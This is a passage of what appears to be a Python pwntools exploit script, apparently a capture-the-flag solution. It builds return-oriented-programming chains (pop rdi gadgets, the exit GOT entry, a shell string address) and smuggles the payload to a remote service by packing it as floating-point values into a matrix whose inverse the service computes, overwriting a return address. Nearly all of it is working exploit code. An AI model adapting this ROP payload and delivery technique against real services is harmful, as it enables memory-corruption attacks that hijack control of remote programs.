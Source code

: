 ```python
# chain0.raw(shaddr)
# chain0.raw(velf.symbols['exit'])
chain0.raw(main_addr)

# by using a second rop chain we don't have a problem with inverting
chain1 = ROP(velf)
chain1.raw(poprdiret)
chain1.raw(velf.got['exit'])
chain1.raw(read_data_addr)
chain1.raw(poprdiret)
chain1.raw(shaddr)
chain1.raw(velf.symbols['exit'])

log.info("rop chain0:\n" + chain0.dump())

# raw_input()


def exploit(chain):
    A = np.eye(N)
    Aflat = A.reshape(-1)

    log.info("exploiting with ropchain:\n" + chain.dump())
    rem.recvuntil(":")

    pl = chain.chain()
    log.info("rop payload:\n" + hexdump(pl))

    plf = struct.unpack('d' * (len(pl) / 8), pl)
    for i, f in enumerate(plf):
        log.info("setting {} to {}".format(retaddr_A_idx + i, f))
        Aflat[retaddr_A_idx + i] = f

    A = Aflat.reshape(N, N)
    log.info("Using matrix:\n" + str(A))
    Ai = np.linalg.inv(A)
    log.info("inverse:\n" + str(Ai))

    n, m = A.shape

    y = ["{}".format(x) for x in Ai.reshape(-1)]
    tldr = [s for s in y if len(s) > 20]
    if len(tldr) > 0:
        log.warning("uuuh there might be a strtod precision issue!\n{!r}"
                    .format(tldr))

    x = ",".join(y)
    log.info("sending the following line:\n{!r}".format(x))

    rem.sendline("{}".format(n))
    rem.recvuntil(":")
    rem.sendline("{}".format(m))
    rem.recvuntil("datas :")
    rem.sendline(x)

    rem.recvuntil("your matrix\n")
    # rem.recvline()
    m1 = ""
    for _ in range(16):
        m1 += rem.recvline()
    log.info("input matrix:\n" + m1)

    rem.recvuntil("your result \n")
```